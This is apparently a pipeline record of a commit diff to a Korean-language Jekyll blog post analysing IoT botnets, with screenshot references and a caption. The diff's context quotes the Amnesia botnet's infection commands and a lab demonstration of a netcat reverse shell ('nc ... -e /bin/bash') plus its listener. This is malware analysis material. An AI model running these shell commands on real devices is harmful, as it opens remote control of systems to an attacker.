

Before and after one commit to hacktagon/hacktagon.github.io, a Jekyll site: the page built from _posts/2017-04-24-IoT_botnet_analysis.md, in a window 1280 px wide and 1400 px high, scrolled down 20335 px. Shown: the whole window at 94% size, without its empty margins (158-1121 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; library files that are not in the unit come from our copies; some of the changed lines change nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
init
test

````diff
--- a/_posts/2017-04-24-IoT_botnet_analysis.md
+++ b/_posts/2017-04-24-IoT_botnet_analysis.md
@@ -2,7 +2,7 @@
 layout: post
 title:  "IoT Botnet Analysis"
 tag:   Analysis
-categories: IoT Analysis mirai Bricker persu
+categories: IoT persu
 modified: 2017-04-26
 comments: true
 featured: true
@@ -493,6 +493,7 @@
 ## Amnesia botnet 동작 과정
 
 ### 1. 감염
+감염 단계에서는 위 취약점을 이용해 DVR Device를 감염 시키게 된다.
 
 ### 2. 제어
 감염된 DVR Device는 IRC 프로토콜을 이용하여 C2 서버와 통신을 하게 된다. 아래 그림처럼 다양한 DDoS 유형을 공격할 수 있게 설계되었다.
@@ -514,6 +515,7 @@
 취약한 DVR Device가 발견되면 Amnesia botnet은 RCE 취약점을 이용해 4가지 명령어를 HTTP Request로 보내게 된다.
 
 - DVR Device 측
+
 ```
 echo "nc" > f
 echo "{one_of_c2_domains : IP}" >> f
@@ -524,7 +526,9 @@
   PID TTY           TIME CMD
 13370 ttys000    0:00.01 nc 192.168.1.1 8888 -e /bin/bash
 ```
+
 - C2 서버 측 (가상환경)
+
 ```
 study persu$ nc -l -p 8888
 id
````
